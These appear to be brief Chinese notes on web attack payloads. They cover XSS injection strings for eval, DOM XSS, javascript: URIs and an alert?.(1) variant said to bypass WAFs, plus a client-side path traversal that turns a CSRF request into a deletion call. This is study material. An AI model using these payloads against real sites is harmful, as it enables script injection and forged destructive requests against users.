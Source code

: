 ```JavaScript
eval("console.log('"+"')-alert()//"+"')");
注释只会注释当前部分，不会全部注释掉，就是最后一个双引号之前的会注释掉
```
危险函数：settimeout，eval，location，innerhtml等

```
var name = '1' -alert(1)
典型的domxss
```

```
<a href=javascript:alert%28%29>test</a>
```

```
alert?.(1)
可以绕waf
```

CSRF的客户端路径穿越
/api/user/del/info?id=fever
可能造成的后端请求是
/api/user/del/info/id/fever
那么我们可以
```
/api/user/del/info?id=../../fever
```
造成受害者发送这样的请求，会带上自己的csrftoken
```
/api/user/del/fever
```
这是发生在客户端的